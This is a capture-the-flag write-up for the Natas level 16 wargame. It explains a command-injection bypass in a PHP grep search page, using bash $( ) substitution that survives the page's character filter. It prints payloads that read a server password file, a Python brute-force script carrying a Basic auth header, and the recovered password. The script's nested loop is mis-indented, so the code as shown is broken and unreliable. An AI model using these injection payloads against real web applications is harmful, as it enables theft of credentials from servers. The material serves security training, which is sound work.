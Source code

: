 - This level is similar to the one which I solved for ```natas10``` to ```natas11```, except for the fact that the input sanitization is even stronger this time
- So we need to change our strategy as it is not possible to use any exploit in ```grep``` or breaking out of it. We need to brute force the password
- The mimic source code of the website looks like follows:
```php
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];
}
if($key != "") {
	if(preg_match('/[;|&`\'"]/',$key)) {
		print "Input contains an illegal character!";
	} else {
		passthru("grep -i \"$key\" dictionary.txt");
	}
}
?>
```
- From the regular expression check, we can observe that all the characters that could have been used to control the functionality of ```grep``` are filtered out, moreover the ```key``` is also enclosed in double quotes so we cannot terminate ```grep``` either
- However, we see that the symbols ```$```, ```(``` and ```)``` are still not filtered, which leaves us a good room for executing the attack. We will use the functionality of evaluating expressions inside double quotes which is provided by ```bash```
## Exploit intuition
- The code filters through the list of words in the dictionary using ```grep``` and prints the result
- We also need to find out two things:
	- What are the characters present in the password string for ```natas17```, which is present in the file ```/etc/natas_webpass/natas17```
	- What is the order of the characters present in the password string
- For performing the brute force attack, we can select a word from the dictionary, let's say December, and use the following payload in two steps: ```December$(grep <string> /etc/natas_webpass/natas17)```
## Exploit working
- Let's consider the working of the exploit through a simple example
- Let's assume the password string is ```password```, and we use the letter ```a``` as the value of ```<string>```, so the final command that will execute on the server would be: ```grep -i "December$(grep a /etc/natas_webpass/natas17)" dictionary.txt```
- The ```bash``` shell first evaluates the inner expression, tries to find the string ```a``` inside the string ```password```, which succeeds, and the result of the expression becomes ```Decemberpassword```. This is not present in the dictionary and hence no output is shown. This confirms that we have ```a``` somewhere in the password string
- Now, we run the same exploit with the value of ```<string>``` as ```b```, which makes the final command to be executed as: ```grep -i "December$(grep b /etc/natas_webpass/natas17)" dictionary.txt```
- This time, the string ```b``` is not present in the password string, so the result of the expression becomes ```December```, which is present in the dictionary and we get the output
- Through this way, we can filter out the characters that are present in the password string
- Now to guess the actual password, we can modify our payload to search from the beginning of the string instead of searching anywhere, like this: ```December$(grep ^<string> /etc/natas_webpass/natas17)```
- Now for each position in the password string, we run through the filter characters, trying to find whether the password string begins with the brute force guess combination or not
- Consider the following example:
	- Let's say we found out the filtered characters, which are ```[a, d, o, p, r, s, w]```
	- We craft the payload as: ```December$(grep ^a /etc/natas_webpass/natas17)```
	- This payload makes the final command to be executed as : ```grep -i "December$(grep ^a /etc/natas_webpass/natas17)" dictionary.txt```
	- Now our password string does NOT start with ```a```, so the final output becomes this: ```grep -i "December" dictionary.txt```
	- This gives us output, and we get to know that for the first position, ```a``` is not the character
	- We loop through the list, and we reach ```p```. Our password string begins with ```p```, hence the final output becomes ```grep -i "Decemberpassword" dictionary.txt```, which is not present in the dictionary. This gives us the information that the character ```p``` is the first one in the password string
	- We continue for each position, trying out all the filtered characters, and get the password
## Brute force code:
```python
import requests
URL = "http://natas16.natas.labs.overthewire.org/index.php"
CHARACTER_LIST = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
HEADERS = {
'Authorization' : 'Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw=='
}
KEYWORD = "December"
filtered_chars = []
for character in CHARACTER_LIST:
	payload = f"{KEYWORD}$(grep {character} /etc/natas_webpass/natas17)"
	params = {'needle' : payload, 'submit' : 'Search'}
	print(f"Sending request with payload: {params}")
	r = requests.get(URL, params=params, headers=HEADERS)
	if KEYWORD not in r.text:
		print(f"Character {character} is present in password file")
		filtered_chars.append(character)

print(f"Filtered characters: {filtered_chars}")
password_str = ""
for i in range(32):
	for character in filtered_chars:
	guess_str = password_str + character
	payload = f"{KEYWORD}$(grep ^{guess_str} /etc/natas_webpass/natas17)"
	params = {'needle' : payload, 'submit' : 'Search'}
	print(f"Sending request with payload: {params}")
	r = requests.get(URL, params=params, headers=HEADERS)
	if KEYWORD not in r.text:
		print(f"Found one character {character}")
		password_str += character
		print(f"Updated password string: {password_str}")

print(password_str)
```
- Obtained password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC